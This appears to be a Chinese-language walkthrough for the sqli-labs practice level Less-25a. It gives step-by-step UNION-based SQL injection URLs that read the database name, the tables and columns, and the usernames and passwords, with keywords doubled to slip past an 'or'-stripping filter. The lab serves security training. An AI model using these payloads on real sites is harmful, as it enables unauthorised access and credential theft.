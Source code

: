 ```yaml
---
title: Less - 25a
date: 2023-03-15T21:24:53Z
lastmod: 2023-03-15T21:57:34Z
---
```


# Less - 25a

---

# 通关教程

---

## 1、判断闭合方式

---

​![image](assets/image-20230315215135-fuw9che.png)​

判断为数字型注入

---

## 2、查看数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0  union select 1,2,database()--+
```

​![image](assets/image-20230315215321-2msmx5f.png)​

---

## 3、查看security库下的所有表

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0  union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security')--+
```

​![image](assets/image-20230315215529-vx9ny8g.png)​

---

## 4、查看users表的字段名

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0  union select 1,2,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users')--+
```

​![image](assets/image-20230315215632-7n9fp7d.png)​

---

## 5、查看username,password字段的值

---

```bash
http://192.168.225.132/sqli-labs/Less-25a/?id=0 union select 1,2,(select group_concat(username,passwoorrd) from security.users)--+
```

​![image](assets/image-20230315215726-i2kv9bk.png)​
